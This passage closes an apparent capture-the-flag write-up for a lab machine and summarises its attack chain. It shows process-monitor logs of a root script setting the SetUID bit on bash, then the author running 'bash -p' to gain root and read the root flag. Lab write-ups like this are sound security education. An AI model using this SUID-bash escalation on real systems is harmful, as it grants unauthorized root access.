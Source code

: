 We see the following in pspy -- our command to add the SetUID bit to bash running as UID=0 (root):

```bash
2023/01/29 04:10:03 CMD: UID=0     PID=106162 | /bin/bash /opt/renew_cert.sh /home/bill/Certs/broscience.crt 
2023/01/29 04:10:03 CMD: UID=0     PID=106163 | sudo chmod +s /usr/bin/bash 
```

And it looks like we can now run bash while maintaining elevated privileges -- which means we get the root flag!:

```bash
bash-5.1$ /usr/bin/bash -p
bash-5.1# id
uid=1000(bill) gid=1000(bill) euid=0(root) groups=1000(bill)
bash-5.1# cat /root/root.txt 
8d5e0e3f4363a6658c468f128532b915
```

## Conclusion

Initial LFI and filter bypass was fairly obvious when enumerating given the 'Error: attack detected' error messages the web server was returning.  I definitely lost a reasonable amount of time trying to work out how to register and activate a user, and somehow overlooked the `srand(time());` call to seed randomness from the current time -- a new attack I had not encountered until now in CTFs.  Additionally, PHP object injection was entirely new to me, and I misunderstood the serialisation/deserialisation process until I played with the relevant code locally.  With RCE out of the way, escalating to the bill user account was easy, and the subsequent escalation to root was also fairly straight forward once I again played with the vulnerable script locally and crafted a payload.

A fun machine where the path was not too unclear and I avoided rabbit holes, but learnt to slow down and understand concepts first.  Playing with vulnerable scripts and replicating bugs/attacks locally is hugely beneficial in this regard.
